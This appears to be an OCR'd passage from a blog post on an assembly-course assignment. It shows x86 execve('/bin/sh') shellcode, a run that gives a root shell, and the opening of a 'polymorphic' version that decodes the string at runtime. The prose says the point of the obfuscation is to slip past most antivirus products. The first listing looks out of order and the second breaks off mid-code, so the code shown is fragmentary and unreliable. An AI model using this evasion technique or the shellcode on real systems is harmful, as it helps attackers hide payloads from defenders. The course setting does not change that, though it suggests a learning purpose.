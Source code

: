 ```nasm
    xor eax,eax
    push eax
    lea edi,[ebx]
    push edi
    mov ecx,esp

    mov al,0xb
    int 0x80

here:
    call me
    path db "//bin/sh"
```
  
Let's execute the shellcode:  
```bash
# ./compile.sh execve && chmod u+x ./execve && ./execve
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
  
The advantage of this shellcode is that the opcodes have been already thought to obfuscate a bit the shellcode behavior. If we add a second layer we can be barely sure that the shellcode will bypass the majority of the AVs.  A good idea here is to obfuscate the **//bin/sh** variable and to add some garbage opcodes and/or to mix them.  
  
So let's have a look at our polymorphic shellcode [execve_polymorphic.nasm](https://github.com/phackt/slae/tree/master/assignment6/execve/execve_polymorphic.nasm):  
```nasm
global _start

section .text
_start:
    jmp short here

me:
    mov dword esi, [esp]    ; equivalent to mov the @ of our encoded //bin/sh into esi
    pop edi                 ; same @ in edi
    
    push 0x1                ; mix a little bit the opcodes
    pop eax
    dec eax
    push eax
    mov edx,esp

    xor ecx, ecx
    mov cl, 0x7             ; //bin/sh is 7 bytes long

dec1:                       
    mov eax, [edi + ecx]    ; we are looping on our string
    dec eax                 ; decrement the value
    mov [edi + ecx], eax    ; setting the right char into memory
    dec cl
    jns dec1                ; jump if not signed

    xor eax, eax            ; here we go for setting the right argument for our execve syscall
    push eax
    add esp,3
    lea esi,[esi+6]
    xor eax,[esi-2]

```